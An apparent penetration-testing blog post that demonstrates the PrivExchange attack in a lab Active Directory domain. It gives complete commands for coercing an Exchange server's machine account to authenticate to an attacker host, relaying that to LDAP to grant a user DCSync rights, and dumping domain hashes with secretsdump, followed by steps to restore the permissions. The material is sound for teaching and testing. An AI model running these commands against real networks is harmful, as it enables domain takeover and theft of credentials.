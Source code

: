 ```yaml
---
layout: single
classes: wide
title:  "Exploiting PrivExchange"
date:   2019-04-11 10:02:00 +0100
---
```


This is not my discovery, and is merely an expansion and demo of how to use the PrivExchange exploit. See [_dirkjan](https://twitter.com/_dirkjan)'s blog post [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/) for the original discovery.

## Overview

The PrivExchange tool simply logs in on Exchange Web Services to subscribe to push notifications to a specific host. This will make the Exchange server's machine account send its NTLMv2 hash back to the attacker host. As this machine account usually has severely high privileges in the domain, it can then be relayed to the domain controller to gain domain privilege escalation.

## Prerequisites

- [PrivExchange](https://github.com/dirkjanm/PrivExchange.git) and [Impacket](https://github.com/SecureAuthCorp/impacket) toolkit installed.
- Domain Name, DC IP, Exchange Server, and your Attack host IP.
- A host on the network with the ability to run your tools.
- A valid domain user account and password, or NTLM hash.
- A valid Exchange Server hostname or IP address. We can check this with `pth-net` from [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

      pth-net rpc group members "Exchange Servers" -I dc01.lab.local -U lab/buff

![pth-net rpc](../assets/img/privexchange/rpc.jpg)

### The different components of the attack

- `lab.local` - Domain name
- `dc01.lab.local` - Domain controller
- `mail01.lab.local` - Exchange server
- `192.168.0.142` - Attacker host

## Exploitation Steps

Run `ntlmrelayx` with the DC IP that we want to relay to, and specify a domain user we control, who we want to escalate privileges for.

    ntlmrelayx.py -t ldap://dc01.lab.local --escalate-user buff

![escalate-user buff](../assets/img/privexchange/2019-04-11-10-27-34.png)

Use the "PrivExchange” tool to send push notification to your own NTLM Relay server. The `-ah` parameter is the `attacking host` and the following parameter is the Exchange server. We also have to give it the domain, username and password for the user we control. Note that the user must have a mailbox connected.

    python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1

![](../assets/img/privexchange/2019-04-11-10-33-01.png)

This should take exactly one minute. A connection comes in from the exchange server as the `MAIL01$` machine account. The NTLMv2 hash of the account is captured and relayed over LDAP to the domain controller, which is used to modify the ACL privileges of our user to get DCsync rights.

![](../assets/img/privexchange/2019-04-11-11-11-36.png)

Once the user in our control obtains `Replication-Get-Changes-All` privileges in the domain we can run `secretsdump.py` to dump hashes from the domain controller.

    secretsdump.py lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm

![](../assets/img/privexchange/2019-04-11-13-03-50.png)

### **Wireshark.**

We first see the API call on HTTPS go to the Exchange server. Followed by 1 minute of waiting, we see a connection negotitation happen initiated from the Exchange server, followed by our Kali box POSTing the /privexchange URL.

![](../assets/img/privexchange/2019-04-11-10-44-01.png)

Followed by the relay to LDAP
![](../assets/img/privexchange/2019-04-11-12-31-08.png)

## Cleanup

### Using aclpwn

Any ACL attack using ntlmrelayx saves a restore file that can be provided to [aclpwn.py](https://github.com/fox-it/aclpwn.py) to restore the original permissions on the domain object.

    python aclpwn.py --restore ../aclpwn-20190319-125741.restore

![](../assets/img/privexchange/2019-04-11-12-27-42.png)

### Using GUI

In "Active Directory Users and Computers”, enable Advanced Features (in View Menu), Right-click [Domain -> Security -> Advanced]. Then look for the domain username account that you just gave "Replicating Directory Changes” and "Replicating Directory Changes All” privileges to and remove those Permission entries in the "Allow” checkboxes.

For example, if we use ADSI Edit to view the properties of the domain object, we can see that the domain user account we gave DCsync privileges have those privs:

![](../assets/img/privexchange/2019-04-11-10-42-24.png)

## Links

- [https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange) - Python
- [https://github.com/G0ldenGunSec/PowerPriv](https://github.com/G0ldenGunSec/PowerPriv) - Powershell version)
- [https://github.com/panagioto/SharpExchangePriv](https://github.com/panagioto/SharpExchangePriv) - C#